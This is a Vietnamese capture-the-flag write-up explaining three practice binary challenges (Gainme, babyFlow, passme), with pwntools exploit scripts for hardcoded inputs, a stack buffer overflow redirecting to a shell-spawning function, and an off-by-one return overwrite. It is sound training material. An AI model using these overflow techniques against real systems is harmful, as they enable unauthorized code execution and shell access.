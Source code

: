 # Gainme
<details>
<summary> Gainme </summary>
 
## level 1
  ![image](https://user-images.githubusercontent.com/111769169/219845961-39a75598-d234-4da9-8477-5e22544c945c.png)  
  chỉ đơn giản là so sánh chuỗi ta nhập vào với ICTF4 là xong  
## level 2
  ![image](https://user-images.githubusercontent.com/111769169/219845852-185dbf47-5107-4a91-9026-251234e2f7b3.png)  
  đại loại là chuỗi s được lưu một chuỗi nào đó đã có trong chương trình  
  lúc gdb đến đoạn strlen ta thấy chương trình đang đếm chuỗi này
  ![image](https://user-images.githubusercontent.com/111769169/219846304-e4c7229a-72ff-441b-b384-d6832be083d6.png)
  cùng với đoạn  ![image](https://user-images.githubusercontent.com/111769169/219846526-67da47a2-c21f-4747-8ab6-46e8b6a493d5.png)  
  thì chúng ta khẳng định là nó đang so sánh thanh dl và al là chuỗi ta nhập vào với chuỗi trong gdb
## level 3
  ![image](https://user-images.githubusercontent.com/111769169/219846653-4e77e24c-933b-42b0-b798-86b63da1d513.png)
  ta thấy chương trình đang so sánh chuỗi nhập vào với 0xDEADBEEF
## level 4
  ![image](https://user-images.githubusercontent.com/111769169/219846707-f36bdcd7-58c0-4968-bd0d-1a7790c496a6.png)
  điều kiện strlen(s) phải lớn hơn 3
  đây thì đại loại giải phương trình bậc 3 =)))
  nghiệm là 1
# script
```python
from pwn import *
#dasDASQWgjtrkodsc
#-559038737
exe = ELF("./Gainme", checksec = False)
p = process(exe.path)

p.sendlineafter(b"0: ", b"ICTF4")                   #level1
p.sendlineafter(b"1: ", b"dasDASQWgjtrkodsc")       #level2
p.sendlineafter(b'2: ', p32(0xDEADBEEF)) #level3
p.sendlineafter(b'3: ', b'1')                       #level4
p.interactive()
```
## Chú ý
để đổi 1 số âm sang hex ta có thể p32(-10000, sign = True)

 </details>

# babyFlow
<details>
<summary> babyflow </summary>
 
  ta thấy hàm gets có thể đoán được nó có BOF
  ![image](https://user-images.githubusercontent.com/111769169/219847378-e4e3ddf8-5d26-4c29-8942-f3b0ddbb0e23.png)
  ___
  ở đây ta hàm strcpy() sẽ lấy chuỗi ta nhập vào và copy vào dest, mà dest cũng chỉ có 16byte và có hàm thực thi /bin/sh nên ta có thể BOF 
  ![image](https://user-images.githubusercontent.com/111769169/219847745-1b1e755a-971c-4086-9ec8-1886b295ecc9.png)
  bây giờ ta tìm offset để ret2win là 24  
  ![image](https://user-images.githubusercontent.com/111769169/219847816-83e0ff9c-1b99-4f52-9f4a-9be9adb00317.png)
```python3
from pwn import *

exe = ELF("./babyFlow", checksec = False)
#p = process("./babyFlow")

p = remote("143.198.219.171", 5000)

input()
payload = b'a' * 24 + p32(exe.sym['get_shell'])
p.sendlineafter(b' me?\n', payload)
p.interactive()
```
</details>

# passme
<details>
 <summary> passme </summary>
 
 ![image](https://user-images.githubusercontent.com/111769169/219850565-ca85ea7b-1530-46c9-952b-f4cf4fc77b69.png)
 
  ban đầu ta nghĩ nó sẽ so sánh 17.022023 với chuỗi ta nhập vào  
  tuy nhiên 17.022023 là long double còn trong file 32bit thì chỉ là float  
  đến đây em được hint là lỗi off-by-one offset là 68 và 1 byte null do hàm gets để lại nên địa chỉ ebp bị thay đổi và nhảy lung tung (giống dạng $rbp)  
  do là nhảy lung tung, có thể nhảy vào giữ payload nên ta có thể để payload toàn là ret về print_flag để tăng cơ hội nhảy vào print_flag  

```python3
 from pwn import *
exe = ELF("./passme", checksec = False)

p = process(exe.path)
payload = p32(exe.sym['print_flag']) *  17
p.sendafter(b'name: \n', payload)

p.interactive()
```
 
</detail>
